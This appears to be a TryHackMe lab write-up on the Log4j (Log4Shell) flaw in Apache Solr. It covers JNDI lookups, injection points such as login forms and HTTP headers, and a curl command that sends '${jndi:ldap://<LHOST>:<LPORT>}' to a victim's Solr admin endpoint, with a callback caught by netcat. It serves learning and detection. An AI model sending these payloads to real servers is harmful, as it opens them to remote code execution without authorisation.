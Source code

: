 # Log4j
https://tryhackme.com/room/solar

## What makes it dangerous?
1. easy to exploit
2. abundant
3. gives remote code execution

## What features are exploited in Log4j?
1. JNDI
2. Support for message lookups

## What are the apps affected so far?
https://github.com/YfryTchsGD/Log4jAttackSurface

## what are more resources to check on the vuln?
https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java
https://log4shell.huntress.com/
https://www.youtube.com/watch?v=7qoPDq41xhQ

## investigating the apache solr logs
`/vas/solr/logs/solr.log`


## by viewing the logs:
`2021-12-13 04:01:58.351 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0`
## we notice that there's an HTTP solr call in the path `/admin/cores` and the params are empty braces where user input can be injected and evaluated as code

## Example statments that can be evaluated:
- `${sys:os.name}`
- `${sys:user.name}`
- `${log4j:configParentLocation}`
- `${ENV:PATH}`
- `${ENV:HOSTNAME}`
- `${java:version}`

## the payload however leverages the JNDI (Java Naming & Directory Interface) which can access external resources
`{JNDI:LDAP://<ATTACKERCONTROLLEDHOST>}`

## Question is: what location can we use this payload?
## the answer is: ANYWHERE that's logged by log4j
- Input user/password login forms
- Data entry points in the application
- HTTP Headers like User-Agent, X-Forwarded-For or other headers

*In short: any place for user-supplied data*

## More information on JNDI Attack vector
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf

## Checking if the vuln exists, we run a curl
`curl 'http://<VICTIM>:8983/solr/admin/cores?edelo=$\{jndi:ldap://<LHOST>:<LPORT>\}'`
## we get a connection back on our listening port
![Log4J Detection](Log4J-Detection.jpg)

## the response was ugly because our netcat listener wasn't a proper **LDAP handler**